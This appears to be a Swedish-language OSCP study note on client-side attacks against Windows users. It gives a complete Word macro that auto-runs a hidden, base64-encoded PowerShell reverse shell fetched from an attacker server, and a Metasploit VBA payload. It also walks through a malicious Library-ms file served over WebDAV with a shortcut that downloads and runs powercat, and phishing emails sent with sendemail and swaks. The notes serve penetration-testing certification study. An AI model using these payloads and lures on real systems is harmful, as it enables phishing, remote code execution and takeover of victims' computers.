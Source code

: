 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/4-client-side/2-client-side-attacks/","updated":"2024-01-05T11:34:33.619+01:00"}
---
```


### Macros:
- Välj "Word 97-2003 Document (.doc)"
- Funkar inte med .docx
- Gå till "View" -> Macros -> Skriv ett namn -> Välj dokumentet under "Macros in"
- Lägg till AutoOpen() och Document_Open()

#### Macro Reverse Shell
1. Anpassa revshell:
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.45.181 -p 4444 -e powershell
```
2. Encoda till base64:
```
www.base64encode.org

#Välj 'UTF-16LE' under 'Destination Character Set'
```
3. Skapa strängar att binda ihop i macrot m.h.a. python:
```python
str = "powershell.exe -nop -w hidden -e <bae64-encoded-string>"

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
4. Sätt ihop strängarna med resterande delar av macrot:
```python
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
	Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
	Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
	Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
	Str = Str + "ALgAxADYAOAAuADEAMQA5AC4AMgAvAHAAbwB3AGUAcgBjAGEAd"
	Str = Str + "AAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwA"
	Str = Str + "gADEAOQAyAC4AMQA2ADgALgA0ADUALgAxADgAMQAgAC0AcAAgA"
	Str = Str + "DQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsAA="
	Str = Str + "="

    CreateObject("Wscript.Shell").Run Str
End Sub
```
5. Sätt upp python-server med powercat och sätt upp lyssnare:
```bash
cd /usr/share/windows-resources/powercat/
python3 -m http.server 80
nc -lvnp 4444
```

#### Metasploit Macro:
```
use windows/meterpreter/reverse_https  
set PAYLOAD windows/meterpreter/reverse_https  
set LHOST Your_IP_Address  
set LPORT 443  
set AutoRunScript post/windows/manager/smart_migrate  
generate -f vba
```

-------------
### Windows Library Files
- Skickar en '.Library-ms'-fil till offret
- Filsystemet i windows kopplar sig mot en uppsatt WebDAV innehållandes en '.lnk'-fil
- Svårt att servera lnk-filen direkt till offret då det mest troligt kommer filtreras bort, så därför detta bra alternativ
- Kommer se ut som ett vanligt directory i Windows vilket är legit

#### Instruktioner:
1. Skapa webdav-mapp någonstans:
```bash
mkdir /home/kali/webdav
```
2. Boota upp webdaven:
```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
3. Skapa en '.Library-ms'-fil med typ VSCode
4. Fyll filen med XML-kod som gör den mer legit.
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://web-dav-url</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
5. Skapa shortcut-fil på webdaven som pekar mot reverse-shell:
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.181:8000/powercat.ps1'); powercat -c 192.168.45.181 -p 4444 -e powershell"
```
![Pasted image 20230706132751.png|550](/img/user/IMAGES/Pasted%20image%2020230706132751.png)
6. Sätt upp python-server med powercat och sätt upp lyssnare:
```bash
cd /usr/share/windows-resources/powercat/
python3 -m http.server 80
nc -lvnp 4444
```

Notes:
- Bild-index -1002 = documents folder icon, -1003 = pictures folder icon
- På grund av att windows ändrar på filen i syfte att optimera kan filen sluta funka efter restart eller liknande.
- Om vill pusha confen till smb:
```bash
cd <web-dav-dir>
smbclient //<client-ip>/share -c 'put <filnamn>.Library-ms'
```
-----------------
#### SendEmail:
```bash
sendemail -f crabfeather@localhost -t dave.wizard@supermagicorg.com -a config.Library-ms -s 192.168.224.199 -m "hello mr, please open file"
```
-----------------
#### Swaks:
```
sudo swaks -t <targetmail1> -t <targetmail2> --from <authmail> --attach @config.Library-ms --server <smtpserver> --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
Example:
```
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

